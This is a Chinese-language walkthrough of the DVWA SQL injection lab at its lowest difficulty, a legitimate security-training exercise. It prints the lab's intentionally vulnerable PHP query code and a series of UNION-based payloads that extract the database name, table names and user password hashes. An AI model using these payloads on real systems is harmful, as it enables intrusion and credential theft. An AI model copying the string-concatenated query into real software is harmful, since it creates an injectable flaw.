





<!--
 * @Author: kok-s0s
 * @Date: 2021-06-13 12:47:33
 * @LastEditors: kok-s0s
 * @LastEditTime: 2021-06-13 20:29:03
 * @Description: sql
-->

# SQL注入

## Low

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

审查源代码，发现只实现简单的查询功能，没有做任何的过滤，是采用单引号来做闭合的。

简单输入一些数字测试，输入1，2显示如下





能够获取一些账户信息（用户名），构造Payload尝试获取数据库信息： `1' union select database(), 2 #` ; 



可知数据库名为 `dvwa` ；

再构造个Payload获取表信息： `1' union select TABLE_NAME, 2 from information_schema. TABLES where table_schema='dvwa'#:` ; 



能够看到有个user表，尝试获取表中的字段信息，构造Payload来获取：
`1' union select user, password from users #` ; 


